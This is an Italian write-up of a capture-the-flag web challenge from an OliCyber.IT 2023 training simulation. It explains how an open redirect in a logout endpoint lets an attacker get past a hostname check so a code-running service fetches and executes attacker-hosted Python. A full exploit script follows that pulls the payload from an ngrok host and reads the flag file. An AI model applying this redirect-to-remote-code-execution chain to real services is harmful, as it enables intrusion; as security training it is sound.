 # OliCyber.IT 2023 - Simulazione training camp 1

## [web] Cloud free tier (5 risoluzioni)

La challenge ci presenta un applicazione che vuole essere un piccolo cloud provider che permette di eseguire alcuni codici presi dagli esempi.

Analizzando il codice possiamo notare alcune bad practices:

- L'endpoint di logout esegue un redirect sia che tu sia loggato sia che tu non lo sia:

```python
def logout():
    # Non so se è proprio il modo giusto ma lo vedo su molti siti!
    redirect_url = request.args.get('redirect', '/login')

    try:
        del session['username']
    except:
        pass

    return redirect(redirect_url)
```

- L'endpoint di esecuzione dell'esempio scarica il codice dal sito stesso anziché prenderlo dalla cartella locale

### Soluzione

Una cosa importante da notare è che nello scaricare il file l'endpoint ha abilitato i redirect anche se non ce n'è bisogno:

```python
r = requests.get(file_url, allow_redirects=True)
```

Possiamo dunque sfruttare la open redirect della logout per passare al server una url che passi il controllo sull'hostname:

```python
# Posso usare solo gli esempi locali per adesso
if not file_url.startswith(f'{HOSTNAME}'):
    return abort(403)
```

ma che comunque lo porti a scaricare un codice scritto da noi, in questo modo possiamo ottenere RCE ed esfiltrare la flag.

### Exploit

```python
#!/bin/python3

import requests
import random
import string
import re

def random_string(k=10):
    return ''.join(random.choices(string.ascii_letters, k=k))


base_url = 'http://cloud_free_tier.challs.olicyber.it'

payload_url = 'https://[REDATTO].eu.ngrok.io/prova_rce.py'

"""
File remoto con questo contenuto:

import os
os.system('cat /flag.txt')
"""

username = random_string(k=20)
password = random_string(k=20)

s = requests.Session()

s.post(f'{base_url}/register', data={
    'username': username,
    'password': password
})

s.post(f'{base_url}/run', data={
    'file': f'/logout?redirect={payload_url}'
})

r = s.get(f'{base_url}/history')

result = re.findall('flag\{.*\}', r.text)

print(result[0])

```
